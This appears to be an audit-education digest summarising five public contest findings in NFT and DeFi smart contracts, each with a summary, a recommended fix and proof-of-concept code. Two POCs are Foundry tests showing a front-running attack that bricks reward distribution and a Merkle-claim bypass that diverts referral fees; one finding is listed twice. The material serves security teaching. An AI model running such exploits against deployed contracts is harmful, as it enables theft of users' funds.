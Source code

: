 # ETAAcademy-Adudit: 5. NFT

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>05. NFT</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>NFT</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[Medium] Distribution can be bricked, and double claims by a few holders are possible when owner calls LiquidInfrastructureERC20::setDistributableERC20s

### Double claiming and bricking distribution

- Summary: Adding a new token can trigger reverts during distribution due to changes in array lengths, while attackers can front-run distribution, resulting in out-of-bounds reverts. Additionally, holders can exploit front-running to distribute rewards and back-run to claim rewards, leading to double claiming and losses for other holders.

- Impact & Recommendation: Removing tokens can cause a loss of token balance until re-added by the owner. To mitigate these risks, it's essential to validate **`setDistributableERC20s`** to prevent changes before distributions occur.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-althea-liquid-infrastructure#m-03--distribution-can-be-bricked-and-double-claims-by-a-few-holders-are-possible-when-owner-calls-liquidinfrastructureerc20setdistributableerc20s) & [Report](https://code4rena.com/reports/2024-02-althea-liquid-infrastructure)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity 0.8.12;
    import {Test, console2} from "forge-std/Test.sol";
    import {LiquidInfrastructureERC20} from "../contracts/LiquidInfrastructureERC20.sol";
    import {LiquidInfrastructureNFT} from "../contracts/LiquidInfrastructureNFT.sol";
    import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
    contract AltheaTest is Test {
        function setUp() public {}
        function test_POC() public {
            // setup
            LiquidInfrastructureNFT nft = new LiquidInfrastructureNFT("LP");
            address[] memory newErc20s = new address[](1);
            uint256[] memory newAmounts = new uint[](1);

            ERC20 DAI = new ERC20("DAI", "DAI");
            ERC20 USDC = new ERC20("USDC", "USDC");
            string memory _name = "LP";
            string memory _symbol = "LP";
            uint256 _minDistributionPeriod = 5;
            address[] memory _managedNFTs = new address[](1);
            address[] memory _approvedHolders = new address[](2);
            address[] memory _distributableErc20s = new address[](1);
            _managedNFTs[0] = address(nft);
            _approvedHolders[0] = address(1);
            _approvedHolders[1] = address(2);
            _distributableErc20s[0] = address(DAI);
            newErc20s[0] = address(DAI);
            nft.setThresholds(newErc20s, newAmounts);
            LiquidInfrastructureERC20 erc = new  LiquidInfrastructureERC20(
                _name, _symbol, _managedNFTs, _approvedHolders, _minDistributionPeriod, _distributableErc20s);
            erc.mint(address(1), 100e18);
            erc.mint(address(2), 100e18);
            // issue ==  change in desirable erc20s
            _distributableErc20s = new address[](2);
            _distributableErc20s[0] = address(DAI);
            _distributableErc20s[1] = address(USDC);
            newAmounts = new uint[](2);
            newErc20s = new address[](2);
            newErc20s[0] = address(DAI);
            newErc20s[1] = address(USDC);
            nft.setThresholds(newErc20s, newAmounts);
            deal(address(DAI), address(erc), 1000e18);
            deal(address(USDC), address(erc), 1000e18);
            vm.roll(block.number + 100);
            // frontrun tx
            erc.distribute(1);
            // victim tx
            erc.setDistributableERC20s(_distributableErc20s);
            // backrun tx
            vm.roll(block.number + _minDistributionPeriod);
            vm.expectRevert(); // Index out of bounds
            erc.distribute(1);
        }
    }

  ```

  </details>

## 2.[High] Function refinanceFromLoanExecutionData() does not check executionData.tokenId == loan.nftCollateralTokenId

### Check tokenId

- The `refinanceFromLoanExecutionData()` function in the contract allows borrowers to refinance their loans using new offers without transferring the NFT collateral out of the protocol. However, this function does not check if the `executionData.tokenId` matches the `loan.nftCollateralTokenId`, potentially leading to a situation where the new loan has a collateral NFT that does not match what the lender requested in their offers.

- Impact & Recommendation: Add a check to ensure `executionData.tokenId` is equal to `loan.nftCollateralTokenId`.
  <br> 🐬: [Source](<https://code4rena.com/reports/2024-04-gondi#h-04-Function-refinanceFromLoanExecutionData()-does-not-check-executionData.tokenId-==-loan.nftCollateralTokenId>) & [Report](https://code4rena.com/reports/2024-04-gondi)

<details><summary>POC</summary>

```solidity

  function _processOffersFromExecutionData(
    address _borrower,
    address _principalReceiver,
    address _principalAddress,
    address _nftCollateralAddress,
    uint256 _tokenId,
    uint256 _duration,
    OfferExecution[] calldata _offerExecution
) private returns (uint256, uint256[] memory, Loan memory, uint256) {
  ...
  _validateOfferExecution(
      thisOfferExecution,
      _tokenId,
      offer.lender,
      offer.lender,
      thisOfferExecution.lenderOfferSignature,
      protocolFee.fraction,
      totalAmount
  );
  ...
}

function _checkValidators(LoanOffer calldata _loanOffer, uint256 _tokenId) private {
    uint256 offerTokenId = _loanOffer.nftCollateralTokenId;
    if (_loanOffer.nftCollateralTokenId != 0) {
        if (offerTokenId != _tokenId) {
            revert InvalidCollateralIdError();
        }
    } else {
        uint256 totalValidators = _loanOffer.validators.length;
        if (totalValidators == 0 && _tokenId != 0) {
            revert InvalidCollateralIdError();
        } else if ((totalValidators == 1) && (_loanOffer.validators[0].validator == address(0))) {
            return;
        }
        for (uint256 i = 0; i < totalValidators;) {
            IBaseLoan.OfferValidator memory thisValidator = _loanOffer.validators[i];
            IOfferValidator(thisValidator.validator).validateOffer(_loanOffer, _tokenId, thisValidator.arguments);
            unchecked {
                ++i;
            }
        }
    }
}

```

</details>

## 3.[High] Function refinanceFromLoanExecutionData() does not check executionData.tokenId == loan.nftCollateralTokenId

### Check tokenId

- Summary: The `refinanceFromLoanExecutionData()` function in the contract allows borrowers to refinance their loans using new offers without transferring the NFT collateral out of the protocol. However, this function does not check if the `executionData.tokenId` matches the `loan.nftCollateralTokenId`, potentially leading to a situation where the new loan has a collateral NFT that does not match what the lender requested in their offers.

- Impact & Recommendation: Add a check to ensure `executionData.tokenId` is equal to `loan.nftCollateralTokenId`.
  <br> 🐬: [Source](<https://code4rena.com/reports/2024-04-gondi#h-04-Function-refinanceFromLoanExecutionData()-does-not-check-executionData.tokenId-==-loan.nftCollateralTokenId>) & [Report](https://code4rena.com/reports/2024-04-gondi)

<details><summary>POC</summary>

```solidity
function _processOffersFromExecutionData(
    address _borrower,
    address _principalReceiver,
    address _principalAddress,
    address _nftCollateralAddress,
    uint256 _tokenId,
    uint256 _duration,
    OfferExecution[] calldata _offerExecution
) private returns (uint256, uint256[] memory, Loan memory, uint256) {
  ...
  _validateOfferExecution(
      thisOfferExecution,
      _tokenId,
      offer.lender,
      offer.lender,
      thisOfferExecution.lenderOfferSignature,
      protocolFee.fraction,
      totalAmount
  );
  ...
}


function _checkValidators(LoanOffer calldata _loanOffer, uint256 _tokenId) private {
    uint256 offerTokenId = _loanOffer.nftCollateralTokenId;
    if (_loanOffer.nftCollateralTokenId != 0) {
        if (offerTokenId != _tokenId) {
            revert InvalidCollateralIdError();
        }
    } else {
        uint256 totalValidators = _loanOffer.validators.length;
        if (totalValidators == 0 && _tokenId != 0) {
            revert InvalidCollateralIdError();
        } else if ((totalValidators == 1) && (_loanOffer.validators[0].validator == address(0))) {
            return;
        }
        for (uint256 i = 0; i < totalValidators;) {
            IBaseLoan.OfferValidator memory thisValidator = _loanOffer.validators[i];
            IOfferValidator(thisValidator.validator).validateOffer(_loanOffer, _tokenId, thisValidator.arguments);
            unchecked {
                ++i;
            }
        }
    }
}

```

</details>

## 4.[High] update_emergency_council_7_D_0_C_1_C_58() updates nft manager instead of emergency council

### Updates emergency council

- Summary: The function `update_emergency_council_7_D_0_C_1_C_58()` in Seawater's `lib.rs` file, intended to update the emergency council responsible for managing protocol shutdowns, mistakenly updates the `nft_manager` instead. This error prevents the proper updating of the emergency council, which could hinder the protocol's ability to respond to emergency situations, compromising its security and stability.

- Impact & Recommendation: The solution is to replace `self.nft_manager.set(manager)` with `self.emergency_council.set(manager)` to ensure the function performs its intended role.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-08-superposition#h-01-update_emergency_council_7_d_0_c_1_c_58-updates-nft-manager-instead-of-emergency-council) & [Report](https://code4rena.com/reports/2024-08-superposition)

<details><summary>POC</summary>

```rust

  pub fn update_emergency_council_7_D_0_C_1_C_58(
            &mut self,
            manager: Address,
        ) -> Result<(), Revert> {
            assert_eq_or!(
                msg::sender(),
                self.seawater_admin.get(),
                Error::SeawaterAdminOnly
            );
            self.nft_manager.set(manager);
            Ok(())
        }

  pub fn update_nft_manager_9_B_D_F_41_F_6(&mut self, manager: Address) -> Result<(), Revert> {
        assert_eq_or!(
            msg::sender(),
            self.seawater_admin.get(),
            Error::SeawaterAdminOnly
        );
        self.nft_manager.set(manager);
        Ok(())
    }

```

</details>

## 5.[Medium] Lack of data validation when users are claiming their art allows malicious user to bypass signature/merkle hash to provide unapproved ref*, artId* and imageURI

### Bypass signature/merkle hash

- Summary: The `merkleClaim` function lacks validation for user-submitted parameters, specifically the referrer address (`ref_`), art ID (`artId_`), and image URI (`imageURI`). This vulnerability allows malicious users to bypass signature and Merkle hash checks, leading to significant security risks. Attackers can illegitimately modify `ref_` to steal referral fees, use inappropriate `artId_` to claim unauthorized art, and set invalid `imageURI` that points to unrelated artworks.

- Impact & Recommendation: It is recommended to implement checks on these parameters within the `merkleClaim` function to enhance contract security and user experience.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-08-phi#m-05-lack-of-data-validation-when-users-are-claiming-their-art-allows-malicious-user-to-bypass-signaturemerkle-hash-to-provide-unapproved-ref_-artid_-and-imageuri) & [Report](https://code4rena.com/reports/2024-08-phi)

<details><summary>POC</summary>

```solidity
function test_claimHack() public {
  bytes32 expectedRoot = 0xe70e719557c28ce2f2f3545d64c633728d70fbcfe6ae3db5fa01420573e0f34b;
  bytes memory credData = abi.encode(1, owner, "MERKLE", 31_337, expectedRoot);
  bytes memory signCreateData = abi.encode(expiresIn, ART_ID_URL_STRING, credData);
  bytes32 createMsgHash = keccak256(signCreateData);
  bytes32 createDigest = ECDSA.toEthSignedMessageHash(createMsgHash);
  (uint8 cv, bytes32 cr, bytes32 cs) = vm.sign(claimSignerPrivateKey, createDigest);
  if (cv != 27) cs = cs | bytes32(uint256(1) << 255);
  phiFactory.createArt{ value: NFT_ART_CREATE_FEE }(
      signCreateData,
      abi.encodePacked(cr, cs),
      IPhiFactory.CreateConfig(participant, receiver, END_TIME, START_TIME, MAX_SUPPLY, MINT_FEE, false)
  );
  address Alice = participant; //Original file setup already deals `participant` enough ether to pay for mint fees
  address Alice_2 = address(0x123456); //Alice's account 2
  vm.startPrank(Alice);
  bytes32[] memory proof = new bytes32[](2);
  proof[0] = 0x0927f012522ebd33191e00fe62c11db25288016345e12e6b63709bb618d777d4;
  proof[1] = 0xdd05ddd79adc5569806124d3c5d8151b75bc81032a0ea21d4cd74fd964947bf5;
  address to = 0x1111111111111111111111111111111111111111;
  bytes32 value = 0x0000000000000000000000000000000003c2f7086aed236c807a1b5000000000;
  uint256 artId = 1;
  bytes memory data = abi.encode(artId, to, proof, Alice_2, uint256(1), value, IMAGE_URL2); // Within this line we have the freedom to decide artId, address of referral and the image URL
  bytes memory dataCompressed = LibZip.cdCompress(data);
  uint256 totalMintFee = phiFactory.getArtMintFee(artId, 1);
  phiFactory.claim{ value: totalMintFee }(dataCompressed);
  (, bytes memory response) = phiFactory.phiRewardsAddress().call(abi.encodeWithSignature("balanceOf(address)", Alice_2));
  uint256 balance = abi.decode(response, (uint256));
  console2.log("Alice_2: ", balance); //Alice successfully illegally receives referral fee through her second account
  vm.stopPrank();
}

```

</details>
